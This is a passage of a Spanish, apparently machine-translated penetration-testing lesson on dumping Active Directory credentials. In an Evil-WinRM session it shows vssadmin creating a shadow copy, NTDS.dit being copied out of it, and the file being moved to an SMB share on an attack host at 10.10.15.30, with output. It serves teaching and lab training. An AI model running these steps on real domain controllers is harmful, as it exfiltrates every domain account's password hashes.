 Esta cuenta tiene los derechos de administradores y administradores de dominio, lo que significa que podemos hacer casi cualquier cosa que queramos, incluida la realización de una copia del archivo NTDS.DIT.

### **Creando una copia en la sombra de C:**

Podemos usar`vssadmin`Para crear un[Copia de sombra de volumen](https://docs.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service) (`VSS`) de la C: unidad o cualquier volumen que el administrador eligió al instalar inicialmente AD. Es muy probable que los NTD se almacenen en C: ya que esa es la ubicación predeterminada seleccionada en la instalación, pero es posible cambiar la ubicación. Usamos VSS para esto porque está diseñado para hacer copias de volúmenes que pueden leerse y escribir activamente sin necesidad de reducir una aplicación o sistema en particular. VSS es utilizado por muchos software de respaldo y recuperación de desastres diferentes para realizar operaciones.

Atacando activo directorio y ntds.dit

```
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:

vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2

```

### **Copiar ntds.dit del VSS**

Luego podemos copiar el archivo ntds.dit de la copia de la sombra de volumen de C: en otra ubicación en la unidad para prepararse para mover ntds.dit a nuestro host de ataque.

Atacando activo directorio y ntds.dit

```
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit

        1 file(s) copied.

```

Antes de copiar NTDS.dit a nuestro host de ataque, es posible que deseemos usar la técnica que aprendimos anteriormente para crear una acción SMB en nuestro host de ataque. Siéntete libre de volver al`Attacking SAM`Sección para revisar ese método si es necesario.

### **Transferir ntds.dit para atacar al anfitrión**

Ahora`cmd.exe /c move`se puede usar para mover el archivo del DC DC de destino a la Compartir en nuestro host de ataque.

Atacando activo directorio y ntds.dit

```
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData

        1 file(s) moved.

```
